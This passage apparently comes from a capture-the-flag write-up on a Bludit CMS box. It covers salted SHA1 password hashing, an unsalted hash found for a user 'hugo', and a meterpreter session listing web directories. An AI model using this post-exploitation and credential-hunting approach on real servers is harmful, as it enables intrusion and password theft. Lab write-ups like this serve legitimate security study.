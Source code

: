             "github": "",
            "gitlab": "",
            "linkedin": "",
            "mastodon": ""
        }

Looking at [the code](https://github.com/bludit/bludit/blob/master/bl-kernel/users.class.php#L155)
we quickly found that the hash algorithm is SHA1 with salt.

Looking more at the code we found another bludit folder with a newer version.
This time the `users.php` file contain a password without salt for the `hugo`
user.

    :::text
    meterpreter > getwd
    /var/www/bludit-3.9.2/bl-content
    meterpreter > cd ../../
    meterpreter > ls
    Listing: /var/www
    =================

    Mode             Size  Type  Last modified              Name
    ----             ----  ----  -------------              ----
    40755/rwxr-xr-x  4096  dir   2020-05-19 10:13:22 -0400  bludit-3.10.0a
    40775/rwxrwxr-x  4096  dir   2020-04-28 07:18:03 -0400  bludit-3.9.2
    40755/rwxr-xr-x  4096  dir   2019-11-28 04:34:02 -0500  html

    meterpreter > cd bludit-3.10.0a
    meterpreter > ls
    Listing: /var/www/bludit-3.10.0a
    ================================

    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  .github
    100644/rw-r--r--  582    fil   2019-10-19 04:10:46 -0400  .gitignore
    100644/rw-r--r--  395    fil   2019-10-19 04:10:46 -0400  .htaccess
    100644/rw-r--r--  1083   fil   2019-10-19 04:10:46 -0400  LICENSE
    100644/rw-r--r--  2893   fil   2019-10-19 04:10:46 -0400  README.md
    40755/rwxr-xr-x   4096   dir   2020-05-19 05:03:34 -0400  bl-content
    40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-kernel
    40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-languages
    40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-plugins
    40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-themes
    100644/rw-r--r--  900    fil   2020-05-19 06:27:40 -0400  index.php
    100644/rw-r--r--  20306  fil   2019-10-19 04:10:46 -0400  install.php

    meterpreter > cd bl-content
    meterpreter > ls
    Listing: /var/www/bludit-3.10.0a/bl-content
    ===========================================

    Mode             Size  Type  Last modified              Name
    ----             ----  ----  -------------              ----
    40755/rwxr-xr-x  4096  dir   2020-05-19 05:10:14 -0400  databases
    40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  pages
    40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  tmp
    40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  uploads
    40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  workspaces
